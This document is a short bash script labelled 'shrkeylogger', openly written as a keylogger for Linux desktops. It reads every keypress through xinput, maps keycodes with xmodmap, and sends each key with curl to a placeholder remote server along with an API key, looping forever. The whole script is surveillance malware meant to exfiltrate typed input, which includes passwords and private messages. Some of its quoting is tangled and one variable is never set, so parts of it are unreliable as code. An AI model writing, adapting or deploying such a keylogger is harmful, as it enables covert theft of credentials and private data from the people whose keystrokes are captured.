 # shrkeylogger
#!/bin/bash

# Server details
SERVER_URL="https://yourserver.com/keylogger"
API_KEY="yourapikey"

# Function to log keystrokes
log_keystrokes() {
    # Log the keystrokes to a file
    xinput test-xi2 --root | awk -v date="$(date +'%Y-%m-%d %H:%M:%S')" '
        /^EVENT type 3 \(KeyPress\)/ {
            keycode = $NF
            system("xmodmap -pke | grep -A1 '"'"'"'"$keycode"'"'"'"' | tail -1 | cut -d'"'"'"'" = '"'"'"' -f2")
        }
    ' | while read -r key; do
        # Send the logged keystrokes to the server
        curl -X POST -H "Content-Type: application/json" -d '{"api_key": "'"$API_KEY"'", "log": "'"$date $key"'"}' "$SERVER_URL"
    done
}

# Check if the keylogger is already running
if pgrep -f "$0" > /dev/null; then
    echo "Keylogger is already running."
    exit 1
fi

# Run the keylogger function indefinitely
while true; do
    log_keystrokes
    sleep 1
done
